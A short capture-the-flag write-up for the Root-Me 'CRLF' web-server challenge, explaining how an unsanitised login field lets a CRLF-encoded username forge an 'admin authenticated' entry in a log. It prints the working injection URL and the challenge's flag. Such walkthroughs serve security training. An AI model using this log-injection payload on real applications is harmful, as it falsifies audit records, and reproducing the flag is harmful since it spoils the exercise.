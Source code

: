 ```yaml
---
title: CRLF
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, rootme]
---
```


* Points: 20
* Link: [https://www.root-me.org/en/Challenges/Web-Server/CRLF](https://www.root-me.org/en/Challenges/Web-Server/CRLF)

## Statement

> Inject false data in the journalisation log.

## Analyzation

We need to write to the log
```
admin authenticated
```

The login form did not prevent the space! When I try ```admin a```, it logs
```
admin a failed to authenticate
```

This is the vuln.

CRLF can be used to force logging a new line.

## Solution

```
/?username=admin%20authenticated.%0d%0aguest&password=a
```

The flag is
```
rFSP&G0p&5uAg1%
```

## Summarization

[CRLF Injection](https://crashtest-security.com/crlf-injection-attack/)